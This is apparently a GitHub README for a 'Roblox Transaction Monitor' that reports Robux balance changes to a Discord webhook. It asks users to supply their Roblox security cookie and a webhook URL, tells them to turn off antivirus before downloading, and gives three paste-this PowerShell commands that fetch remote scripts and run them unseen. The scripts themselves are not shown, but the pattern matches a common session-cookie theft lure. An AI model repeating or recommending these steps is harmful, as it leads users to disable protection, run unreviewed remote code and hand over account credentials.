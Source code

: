 # Roblox Transaction Monitor
![image](https://github.com/user-attachments/assets/16669dc8-7a44-4c9d-8f60-48a9d46cdb08)

A GUI application to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Features

- [x] Real time monitoring of Roblox transactions
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] User friendly GUI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Also just a Quick Fix

- [x] Turn Anti virus off
- [x] then download the app
- [x] after that turn the anti virus back on and you're done

## TODO

- [x] Create a Dropdown menu like past day month year total

## Configuration

The application requires the following configuration:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (update what ever time you want to set to)
6. Total Checks (Transaction/Balance) Like (Day Month Year)

## Usage

Run the application by executing this command

Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```
Power shell Version
```
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.ps1").Content
```

## License

This project is licensed under the Apache License - see the LICENSE file for details.
